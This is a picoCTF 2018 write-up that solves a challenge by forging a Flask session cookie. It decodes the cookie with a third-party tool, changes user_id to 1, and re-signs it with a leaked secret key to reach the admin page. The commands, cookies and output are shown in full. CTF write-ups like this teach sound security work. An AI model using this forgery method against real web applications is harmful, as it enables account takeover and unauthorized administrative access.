

## Challenge

Nice! You found out they were sending the Secret\_key:
`385c16dd09098b011d0086f9e218a0a2`.  
Now, can you find a way to log in as admin?
http://2018shell1.picoctf.com:48263

## Solution

We find our session cookie

    .eJwlj8uKwzAMAP_F5xxsvSL3Z4JsSWwp7ELSnkr_vYa9z8DMuxx5xvVTbs_zFVs57l5uxRwDe6Vahcl2Ms0KXMUoh6I7IgE0HcSufYoKx0DHXcOYwKlPlkRAi-GZqYCcjEkBOVO7GUwOttaWbHtomzarTfLWxapj2cq8zjyef4_4XT0LVhBpwIyqMnqb3HRXRKUBoqQ-Vkwu73XF-T_Ravl8Aa_JPmw.DrIbMQ.mLvNGriozmsC4ufO9lqGP44D340

and learn a bit about how flask deals with session cookies:

* https://www.kirsle.net/wizards/flask-session.cgi
* https://stackoverflow.com/questions/22463939/demystify-flask-app-secret-key#22463969
* https://pythonhosted.org/itsdangerous/

We also find [this tool][1] to help us (also in this repo
[here](writeupfiles/flask_session_cookie_manager.py))

We use this to decode our existing cookie:

    $ python flask_session_cookie_manager.py decode -c '.eJwlj8uKwzAMAP_F5xxsvSL3Z4JsSWwp7ELSnkr_vYa9z8DMuxx5xvVTbs_zFVs57l5uxRwDe6Vahcl2Ms0KXMUoh6I7IgE0HcSufYoKx0DHXcOYwKlPlkRAi-GZqYCcjEkBOVO7GUwOttaWbHtomzarTfLWxapj2cq8zjyef4_4XT0LVhBpwIyqMnqb3HRXRKUBoqQ-Vkwu73XF-T_Ravl8Aa_JPmw.DrIbMQ.mLvNGriozmsC4ufO9lqGP44D340
    '
    {"_fresh":true,"_id":"ad3e390400654a74a8f02506a4fb83dd3342218b45d89c6865eb3d378ea542d49c56f323aebdfff8235f53f4e2fcf89aa2c5e5a119c6a7e81cac0ac4d196a0d3","csrf_token":"5e5826612553886b91c518783384b26848dbb45f","user_id":"10"}
{: .language-bash}

Then change the `user_id` to `1` and encode it using our secret key:

    $ python flask_session_cookie_manager.py encode -s '385c16dd09098b011d0086f9e218a0a2' -t '{"_fresh":True,"_id":"ad3e390400654a74a8f02506a4fb83dd3342218b45d89c6865eb3d378ea542d49c56f323aebdfff8235f53f4e2fcf89aa2c5e5a119c6a7e81cac0ac4d196a0d3","csrf_token":"5e5826612553886b91c518783384b26848dbb45f","user_id":"1"}'
    .eJxNUM-LgkAU_leWOXdIVy9Ch2BmxeC9wRiTNxdhzcyn04IV5UT_-1qHZQ_f5YPv50NUh7E5H0VyGa_NQlTdXiQP8fEtEkFl7q2BGGR-A0kBpupzRmR5PaFZh2S2jrj1Ns09-HwCVhFxHljZxuQpQt4NxNiDryNbqgDlpkc5MBrrwGeeyl1nU-sstxP4nUODDtNisg6dlsORzIaxLAIy6q5LmPP2g5ZfTCXcZiytVDE6dbMSVuK5EPV5PFSXn745_U14ybXMQmQ1Vy68lm1I3N_JF3ct6wg8RJhmE3K71Om2e9dvV2-767kZ_98B-Yt__gJ85WQf.W9GuEQ.aDVMvmgmVLaXgfOrCbP6QnJCppQ
{: .language-bash}

we set our cookie in the browser and find the flag on the admin page:

[1]: https://github.com/noraj/flask-session-cookie-manager
